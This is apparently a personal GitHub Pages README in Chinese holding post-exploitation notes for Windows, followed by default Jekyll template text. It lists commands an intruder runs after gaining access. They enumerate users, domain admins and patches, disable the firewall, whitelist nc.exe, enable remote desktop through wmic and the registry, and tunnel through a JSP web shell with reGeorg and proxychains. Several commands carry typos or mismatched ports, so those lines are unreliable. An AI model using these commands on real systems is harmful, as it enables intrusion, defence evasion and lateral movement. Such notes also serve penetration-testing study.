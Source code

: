 ## 後滲透筆記

systeminfo	系統資訊

systeminfo | findstr /B /C:"OS名稱" /C:"OS版本"	查看特定資訊

wmic os get caption	查看作業系統

whoami	當前使用者

whoami /priv	當前使用者權限

ipconfig /displaydns	DNS暫存

route print	路由表

arp -a	

hostname	

net user	

net user UserName	關於使用者資訊

net localgroup administrators	本機管理者帳號

net user /domain	網域使用者

wmic useraccount get /all 	網域使用者詳細資訊

net group "domain admins" /domain	網域管理者帳號

net use \SMBPATH Pa$$w0rd /u:UserName	連接SMB

net localgroup	列出所有Group

net localgroup GROUP	列出指定Group資訊

net view \127.0.0.1	會話打開到當前電腦

net session	開放給其他電腦

DRIVERQUERY	列出安裝的驅動

tasklist /svc	列出task and service

Tasklist /svc|find "TermService"	查看PID

netstat -ano|find "3389"

net start	列出啟動的服務

dir /s foo	目錄搜尋指定的關鍵字

dir /s foo == bar	同上

sc query	列出所有服務

sc qc "Service"	查服務

sc qc ServiceName	找到指定服務的路徑

shutdown /r /t 0	立即重啟

type file.txt	列出檔案內容

icacls “C:\Example”	列出權限

systeminfo	列出已安装的補丁

wmic qfe get Caption,Description,HotFixID,InstalledOn	列出已安装的補丁

wmic qfe get Description,HotFixID,InstalledOn

wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"  列出指定補丁

wmic product get name,version	查看目前安裝程序

### 共享目錄
net share

wmic share get name,path,status

### 防火牆設定
netsh firewall show config	顯示防火牆配置

netsh firewall set opmode disable	關閉防火牆(2003及以前版本)

netsh advfirewall set allprofiles state off	關閉防火牆(2003之後版本)

netsh firewall add allowedprogram c:\nc.exe "allow nc" enable	允許程式通過 (2003及以前版本)

netsh advfirewall fireall add rule name="pass nc" dir=in action=allow program="c:\nc.exe"	允許程式通過 (2003之後版本)

netsh advfirewall firewall add rule name"Allow nc" dir=out action=alow program="C:\nc.exe"

netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3398 action=allow	允許3389通過

netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log"	定義防火牆log存放位置



### 遠端服務
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber	查看遠端連結port(0xd3d)

開啟3389port#WinSer2003

wmic path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1	

開啟3389port#WinSer2008、2012

wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1

wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /fSingleSessionPerUser

### reGeorg
[regeorg](https://github.com/sensepost/reGeorg)

python re.py -p 7788 -u http://xxxxxxxxxxx/222.jsp

proxychains rdesktop 127.0.0.1	//後續連接3389

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/cr810831cs07g/cr810831cs07g.GitHub.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
